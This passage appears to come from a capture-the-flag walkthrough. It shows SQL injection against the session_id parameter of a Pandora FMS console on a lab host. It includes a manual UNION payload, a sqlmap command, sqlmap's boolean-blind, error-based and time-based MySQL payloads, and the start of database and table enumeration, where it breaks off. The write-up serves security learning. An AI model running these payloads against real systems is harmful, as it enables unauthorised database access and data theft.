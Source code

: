 Increasing the number of columns in the union, at
`session_id=' union select 1,2,3;-- -` it works:

![](/img/image-20220519110116404.png)

#### sqlmap

I'll point `sqlmap` at this and it finds UNION injection but decides it
can't exploit it. It does find boolean, error-based, and time-based
injections:



    oxdf@hacky$ sqlmap -u 'http://pandora.panda.htb:9001/pandora_console/include/chart_generator.php?session_id=1'
    ...[snip]...
    sqlmap identified the following injection point(s) with a total of 334 HTTP(s) requests:
    ---         
    Parameter: session_id (GET)             
        Type: boolean-based blind
        Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
        Payload: session_id=1' RLIKE (SELECT (CASE WHEN (9034=9034) THEN 1 ELSE 0x28 END))-- dJJc

        Type: error-based
        Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
        Payload: session_id=1' OR (SELECT 1447 FROM(SELECT COUNT(*),CONCAT(0x716b627671,(SELECT (ELT(1447=1447,1))),0x716a787671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- wMuR

        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: session_id=1' AND (SELECT 9955 FROM (SELECT(SLEEP(5)))lBOL)-- GqOs
    ---
    [15:03:59] [INFO] the back-end DBMS is MySQL
    back-end DBMS: MySQL >= 5.0 (MariaDB fork)  
    ...[snip]...



`--dbs` shows two databases:



    available databases [2]:
    [*] information_schema
    [*] pandora



`-D pandora --tables` shows 178 (!) tables:



    Database: pandora
    [178 tables]                                  
    +------------------------------------+
    | taddress                           |
    | taddress_agent                     |             
    | tagent_access                      |
    | tagent_custom_data                 |
    | tagent_custom_fields               |
    | tagent_custom_fields_filter        |